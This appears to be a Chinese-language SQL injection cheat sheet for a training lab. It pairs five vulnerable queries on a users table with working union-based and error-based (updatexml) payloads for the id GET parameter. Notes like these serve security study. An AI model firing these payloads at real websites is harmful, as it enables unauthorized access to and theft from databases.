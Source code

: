 ## 一、GET

### 1、联合查询 [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1' union select 1,database(),3--+
```

### 2、联合查询 [ ]

```python
# SQL语句
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1 union select 1,database(),3--+
```

### 3、联合查询 [ ') ]

```python
# SQL语句
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1') union select 1,database(),3--+
```

### 4、联合查询 [ ") ]

```python
# SQL语句
$id = '"' . $id . '"';
SELECT * FROM users WHERE id=($id) LIMIT 0,1
# 过滤语句
无
# Payload
?id=-1") union select 1,database(),3--+
```

### 5、报错注入 [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) --+
```

